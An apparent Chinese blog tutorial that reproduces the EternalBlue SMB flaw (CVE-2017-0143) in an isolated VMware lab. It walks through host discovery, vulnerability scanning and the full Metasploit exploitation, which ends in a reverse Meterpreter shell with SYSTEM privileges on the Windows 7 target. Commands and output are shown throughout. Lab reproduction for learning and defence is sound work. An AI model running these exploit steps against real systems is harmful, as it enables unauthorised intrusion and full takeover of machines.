

# 永恒之蓝 _CVE-2017-0143_ 漏洞复现/验证 - zlzgzlz - 博客园

> 原文：[`www.cnblogs.com/shiyisec/p/17653427.html`](https://www.cnblogs.com/shiyisec/p/17653427.html)

# 一 漏洞介绍

## 1.1 微步在线，搜索 cve-2017-0143 漏洞。

> 该文章仅作学习、分享笔记用，大家注意遵守相关法律法规。我的测试环境为 VMware 两个虚拟机，一个 kali，一个 win7，都是仅主机模式，建议向我学习。
>        如果在客户单位发现类似的高危漏洞，请及时向领导和甲方运维人员通报（发邮件等），让相关人员尽快修复漏洞。

# 二 漏洞验证

## 2.1 发现主机

### 2.1.1 同一网段发现主机，使用 arp 扫描

```
arp-scan -l 
```

```
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:bc:71:92, IPv4: 10.44.1.132
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
10.44.1.1       00:50:56:c0:00:01       VMware, Inc.
10.44.1.134     00:0c:29:0b:b8:fa       VMware, Inc.
10.44.1.254     00:50:56:ec:40:d0       VMware, Inc.

3 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.012 seconds (127.24 hosts/sec). 3 responded 
```

### 2.1.2 跨网段发现主机，使用 nmap 的 arp 扫描

```
nmap -sn 10.44.1.0/24 
```

```
┌──(root㉿kali)-[~]
└─# nmap -sn 10.44.1.0/24 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 09:09 EST
Nmap scan report for 10.44.1.1
Host is up (0.00023s latency).
MAC Address: 00:50:56:C0:00:01 (VMware)
Nmap scan report for 10.44.1.134
Host is up (0.00013s latency).
MAC Address: 00:0C:29:0B:B8:FA (VMware)
Nmap scan report for 10.44.1.254
Host is up (0.00011s latency).
MAC Address: 00:50:56:EC:40:D0 (VMware)
Nmap scan report for 10.44.1.132
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 27.94 seconds 
```

## 2.2 漏洞探测。

### 2.2.1 使用 nmap 脚本探测是否存在永恒之蓝漏洞。

```
nmap -n -p 445 --script smb-vuln-ms17-010  10.44.1.134 
```

结果为存在该漏洞。

```
┌──(root㉿kali)-[~]
└─# nmap -n -p 445 --script smb-vuln-ms17-010  10.44.1.134
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-06 09:04 EST
Nmap scan report for 10.44.1.134
Host is up (0.00047s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:0B:B8:FA (VMware)

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 0.29 seconds 
```

### 2.2.2 使用 kali 的 msf 探测是否存在永恒之蓝漏洞。

输入 msfconsole。打开 msf。

```
msfconsole 
```

```
# cowsay++
 ____________                                                                                                                                             
< metasploit >                                                                                                                                            
 ------------                                                                                                                                             
       \   ,__,                                                                                                                                           
        \  (oo)____                                                                                                                                       
           (__)    )\                                                                                                                                     
              ||--|| *                                                                                                                                    

       =[ metasploit v6.3.4-dev                           ]
+ -- --=[ 2294 exploits - 1201 auxiliary - 409 post       ]
+ -- --=[ 968 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Enable verbose logging with set VERBOSE 
true                                                                                                                                                      
Metasploit Documentation: https://docs.metasploit.com/ 
```

输入 search ms17-010。搜索永恒之蓝的模块。

```
search ms17-010 
```

```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution

Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce 
```

输入 use 3。选择 MS17-010 SMB RCE Detection。使用模块探测漏洞是否存在。

```
use 3 
```

输入 show options。查看具体参数。

```
show options 
```

```
msf6 > use 3
msf6 auxiliary(scanner/smb/smb_ms17_010) > show options

Module options (auxiliary/scanner/smb/smb_ms17_010):

   Name         Current Setting                               Required  Description
   ----         ---------------                               --------  -----------
。。。
   RHOSTS                                                     yes       The target 
。。。 
```

yes 的都是需要配置的，已有的不需要修改，默认就好。现在只有 RHOSTS 为空。
输入 set RHOSTS 10.44.1.134。设置被攻鸡的靶机 IP。

```
set RHOSTS 10.44.1.134 
```

然后 run。运行。

```
run 
```

结果为存在该漏洞。

```
msf6 auxiliary(scanner/smb/smb_ms17_010) > set RHOSTS 10.44.1.134
RHOSTS => 10.44.1.134
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.44.1.134:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 10.44.1.134:445       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed 
```

## 2.3 复现该漏洞

继续使用 msf。
输入 search ms17-010。使用 exp 模块。设置本地 IP，设置靶机 IP，运行。

```
use 0
show options
set LHOST 10.44.1.132
set RHOSTS 10.44.1.134
run 
```

成功连接靶机。

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 10.44.1.132
LHOST => 10.44.1.132
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.44.1.134
RHOSTS => 10.44.1.134
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.44.1.132:4444 
[*] 10.44.1.134:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.44.1.134:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Ultimate 7601 Service Pack 1 x64 (64-bit)
[*] 10.44.1.134:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.44.1.134:445 - The target is vulnerable.
[*] 10.44.1.134:445 - Connecting to target for exploitation.
[+] 10.44.1.134:445 - Connection established for exploitation.
[+] 10.44.1.134:445 - Target OS selected valid for OS indicated by SMB reply
。。。
[*] Meterpreter session 1 opened (10.44.1.132:4444 -> 10.44.1.134:49158) at 2023-03-06 09:30:55 -0500
[+] 10.44.1.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.44.1.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.44.1.134:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter > 
```

输入 shell，输入 ipconfig，可以看到打印出的信息为靶机的 IP。

```
meterpreter > shell
Process 896 created.
Channel 1 created.
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>ipconfig | findstr "IP"  
ipconfig | findstr "IP"
Windows IP ����
   �������� IPv6 ��. . . . . . . . : fe80::5556:9c4d:26e9:2147%16
   IPv4 �� . . . . . . . . . . . . : 192.168.1.2
   �������� IPv6 ��. . . . . . . . : fe80::c14c:1abc:27ec:8aba%11
   IPv4 �� . . . . . . . . . . . . : 10.44.1.134

C:\Windows\system32> 
```

输入 whoami，为 system 最高权限。

```
C:\Windows\system32>whoami
whoami
nt authority\system 
```